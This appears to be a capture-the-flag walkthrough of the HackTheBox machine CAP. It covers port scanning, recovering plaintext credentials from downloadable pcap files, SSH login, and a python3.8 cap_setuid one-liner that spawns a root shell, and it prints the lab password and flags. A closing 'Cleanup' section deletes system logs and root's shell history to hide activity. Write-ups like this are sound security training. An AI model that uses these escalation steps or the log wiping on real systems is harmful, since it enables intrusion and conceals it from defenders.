 \# HackTheBox Walkthrough – CAP



\## 🧭 Introduction



This is my technical walkthrough of the HackTheBox machine \*\*CAP\*\*, focused on privilege escalation through Linux capabilities and binary analysis.

The goal was to gain user access, identify exploitable binaries, and escalate to root privileges.



---



\## 🔎 Initial Enumeration



\### ✅ Checking Host Availability

```bash

ping 10.10.10.245



✅ Full Port Scan with Nmap

nmap -p- -sV 10.10.10.245





\- -p- → scans all 65535 ports

\- -sV → detects service versions

Scan Results:

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu

80/tcp open  http    Gunicorn







🌐 Web Exploration

Navigating to http://10.10.10.245, I found a webpage linked to the user Nathan. Clicking on "Security Snapshot" appended /data/<number> to the URL, allowing me to download .pcap files.



🧪 Packet Analysis with Wireshark

I downloaded /data/0.pcap and inspected the TCP stream using Wireshark. I discovered plaintext credentials:

Username: nathan

Password: Buck3tH4TF0RM3!







🔐 SSH Access

I attempted SSH login:

ssh nathan@10.10.10.245





After accepting the fingerprint and entering the password, I successfully gained shell access as Nathan.



🧾 User Flag

Listing Nathan’s home directory:

ls

cat user.txt





User Flag:

250a5a6a2c28aa53759e28c8fc160247







🔼 Privilege Escalation

🔍 Searching for SUID Binaries

find / -perm -4000 -type f 2>/dev/null





\- -perm -4000 → finds files with SUID bit set

\- -type f → restricts to regular files

\- 2>/dev/null → suppresses permission errors

🔍 Searching for Special Capabilities

getcap -r / 2>/dev/null





I found:

/usr/bin/python3.8 = cap\_setuid+ep





🔥 Exploiting Python Capabilities

python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'





This allowed me to spawn a root shell by leveraging cap\_setuid+ep.



🏁 Root Flag

Navigating to the root home directory:

cd /root

ls -la

cat root.txt





Root Flag:

66b199413df3f0853d37b6044e461036







🧹 Cleanup

To remove traces of my activity:

sudo rm /var/log/auth.log\*

sudo rm /var/log/syslog\*

sudo rm /root/.bash\_history\*







🧠 Conclusion

CAP was a great exercise in service enumeration, packet analysis, and privilege escalation via Linux capabilities. It reinforced the importance of inspecting .pcap files and understanding how capabilities like cap\_setuid+ep can be abused for root access.



🔗 Useful Resources

\- GTFOBins

\- Wireshark

\- HackTheBox – CAP



